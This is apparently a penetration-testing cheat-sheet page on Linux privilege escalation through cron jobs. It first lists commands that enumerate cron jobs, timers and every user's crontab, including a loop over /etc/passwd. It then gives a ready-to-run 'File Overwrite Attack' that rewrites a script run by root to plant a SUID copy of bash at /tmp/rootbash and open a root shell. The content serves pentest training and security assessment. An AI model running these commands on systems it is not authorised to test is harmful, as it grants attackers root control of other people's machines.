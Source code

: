 ### Enumeration

```bash
# Real-time monitoring of running processes
./pspy64

# Check configured cron jobs
crontab -l
ls -alh /var/spool/cron/
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/crontab
find /etc/cron* -type f -readable 2>/dev/null
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny

# Check user crontabs
for user in $(cat /etc/passwd | cut -f1 -d':'); do echo "### Crontabs for $user ####"; crontab -u $user -l 2>/dev/null; done

# Check systemd timers (newer alternative to cron)
systemctl list-timers --all
find /etc/systemd/system -type f -name "*.timer" -ls 2>/dev/null
find /usr/lib/systemd/system -type f -name "*.timer" -ls 2>/dev/null

# Monitor cron job execution in real-time
watch -n 1 "ps aux | grep -v grep | grep cron"

# One-liner to find world-writable cron job targets
find $(cat /etc/crontab | grep -v "#" | grep -v "^$" | awk '{print $NF}' 2>/dev/null) -writable 2>/dev/null
```

### File Overwrite Attack

Requirements:

- Cron job runs as root
- Write access to the executed script/binary

```bash
# Overwrite the target script
echo '#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash' > /path/to/overwritable/script

# Make sure it's executable
chmod +x /path/to/overwritable/script

# Wait for cron job to execute, then run
/tmp/rootbash -p
```
